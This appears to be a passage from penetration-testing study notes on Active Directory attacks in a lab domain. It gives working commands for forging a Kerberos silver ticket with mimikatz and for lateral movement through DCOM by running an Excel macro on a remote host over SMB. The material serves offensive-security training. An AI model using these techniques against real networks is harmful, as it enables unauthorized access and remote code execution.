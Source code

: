 We can easily obtain the SID of our current user and extract the domain SID part from it.

```
C:\Windows\system32>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
```

The string "S-1-5-21-4038953314-3014849035-1274281563" will be the domain SID. Note that I omitted 1103 as that is the specific object identifier.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt
```

Now we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

### Distributed Component Object Model

The Microsoft Component Object Model is a system for creating software components that interact with each other.&#x20;

DCOM allows lateral movement through use of Outlook and PowerPoint. This is best against workstations. We will use the Excel.Application DCOM object.

To start, we must first discover the available methods for this DCOM object.&#x20;

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.193.10"))

$com | Get-Member
```

Then, we will open an Excel document and make a macro called mymacro.

```
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

We can now use the Copy method and send it to the SMB file share as well as execute it.

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```
